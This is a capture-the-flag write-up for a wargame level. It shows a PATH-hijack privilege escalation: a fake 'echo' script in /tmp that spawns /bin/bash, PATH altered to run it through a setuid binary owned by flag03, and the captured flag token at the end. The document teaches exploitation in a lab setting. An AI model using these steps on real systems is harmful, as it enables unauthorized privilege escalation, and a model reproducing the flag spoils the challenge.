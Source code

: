 `ls -l` <br/>
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

`When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code

Security threat, can replace env variable

`echo "/bin/bash" > /tmp/echo`

Create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission

`chmod 777 /tmp/echo`

otherwise the file is `-rw-rw-r-- 1 level03 level03 10 Sep 22 02:19 /tmp/echo` and flag03 can't execute it


`export PATH=/tmp:$PATH`

Do command `env` and see path went from:

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

to 

PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

So when calling env, the shell is going to read PATH variable to see where is the file to execute and will execute the first it finds, here our fake echo in tmp

then execute script `./level03`

You are now flag3 because you "opened" a new shell with the rights of flag03

`getflag` gives `qi0maab88jeaj46qoumi7maus`
